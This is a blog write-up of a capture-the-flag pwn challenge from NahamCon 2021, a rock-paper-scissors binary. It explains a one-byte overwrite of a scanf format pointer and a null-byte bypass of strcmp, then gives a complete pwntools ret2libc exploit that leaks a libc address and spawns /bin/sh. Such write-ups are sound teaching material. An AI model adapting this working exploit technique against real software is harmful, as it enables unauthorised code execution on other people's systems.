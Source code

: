 ```yaml
---
layout: post
title: NahamCon 2021 rock paper scissors (pwn)
---
```


This weekend, there was a blue moon, so I figured I'd upload something to my blog again.

# Rock paper scissors
The program itself is straightforward. The user gets asked if they want to play rock, paper, scissors. The user can answer with y or n. If the user chooses to play, the program presents the user with 3 options: rock, paper or scissors. They can be selected through putting a number in for which option they'd like to choose. Next, the program will tell the user whether they lost or won, presumably based on a randomized guess from the computer and a simple logic check. Regardless, the user will be presented with the option to play again. This time, the user can fill in more than a character, namely "yes" or "no". If the user puts in "yes", the game starts again. If the user puts in anything else, the program exits.

<img src="{{ site.baseurl }}/images/rps1.png"/>

## Preliminary analysis
I started by running checksec on the binary. RELRO and NX were enabled, but stack canaries and PIE were not. This lead me to think that the vulnerability was a stack overflow one. The binary also came with a libc file, so the stack overflow would probably have to be chained with a libc memory address leak, forming a ret2libc exploit.

## The vulnerability
Opening the binary in Ghidra, we can see that the function containing the game loop gets the selected option from the user through a call to scanf(), meaning that at this time, this call is not vulnerable to any buffer overflows, since the format string only accepts integers. Unfortunately, this is the only function call that stores its input on the stack. Later on, the game asks whether the user wants to play again or not. This is done through a call to read(), which takes 0x19 bytes and stores it in a global variable in the .data section, meaning that it can not cause a stack buffer overflow. We will call the variable playAgainAnswer. The read() call's destination might have other things it can override that might be interesting to the attacker, though.

<img src="{{ site.baseurl }}/images/rps2.png"/>

The playAgainAnswer variable is located right before the pointer that points to the format string used in the scanf() call that gets the user's choice. The attacker can put in 0x19 bytes, which is just enough to overflow the least significant byte of the format string pointer. If there is a format string in memory that takes strings instead of integers, the pointer can be overwritten to use that instead. Right before the "%d" format string, there is in fact a "%s" string.

<img src="{{ site.baseurl }}/images/rps3.png"/>

One issue with this vulnerability is that the game loop needs to be run again after corrupting the format string pointer, but the playAgainAnswer needs to be "yes\n" in order for that to happen, which is not the case if we feed it the overflow payload. The function that is used to compare the strings is strcmp(), which stops comparing when the null byte is hit on both strings. One trick to bypass this is through null-byte poisoning. This means that the payload starts with "yes\n", followed by a null byte, which is followed by the payload.

## Crafting the exploit
After sending the payload, the user will again be presented with the prompt to select an option, only this time it can send whatever data it wants. The attacker can now overflow the buffer on the stack and gain control of the instruction pointer. Since there is no code that can be used to get a shell in the binary itself, I needed to craft a ret2libc exploit.

The first step is leaking the base address of libc. I started by building a payload that executes the puts() function, with the GOT address of puts as its argument, followed by a call to main(), which will effectively start the program from the beginning, allowing us to perform a second buffer overflow that gets us the shell. The libc file provided by the challenge can be used to get the proper offsets of the symbols to calculate the base address and the addresses of "/bin/sh" and system(). This worked locally, but not remotely for some reason. This was because the stack was not 16-bytes alligned. This was solved with a simple call to ret before executing the shell payload.

```python
from pwn import *

elf = context.binary = ELF("rps")
libc = ELF("./libc-2.31.so")

gs = '''
break *0x401452
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def set_scanf_d_to_s(p):
    payload = b"yes\n\x00" + b"A"*0x13 + b"\x08"
    time.sleep(0.2)
    p.sendline(b"y")
    time.sleep(0.2)
    p.sendline(b"1")
    time.sleep(0.2)
    p.sendline(payload)


# rop gadgets
poprdi = p64(0x401513)
putsgot = p64(0x403f98)
putsplt = p64(0x401100)
ret = p64(0x40101a)

main_addr = p64(0x401453)

leak_base_payload = b"A"*0x14 + poprdi + putsgot + putsplt + main_addr

p = start()

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(leak_base_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

# get leaked puts address from output
leak = p.recvuntil(b"How")
leak_offset = leak.find(b"]:") + 3
address = leak[leak_offset:-4]
puts_address = int.from_bytes(address, byteorder='little')

libc.address = puts_address - libc.symbols["puts"]
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

shell_payload = b"A"*0x14 + ret + poprdi + p64(binsh) + p64(system)

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(shell_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

p.interactive()
```
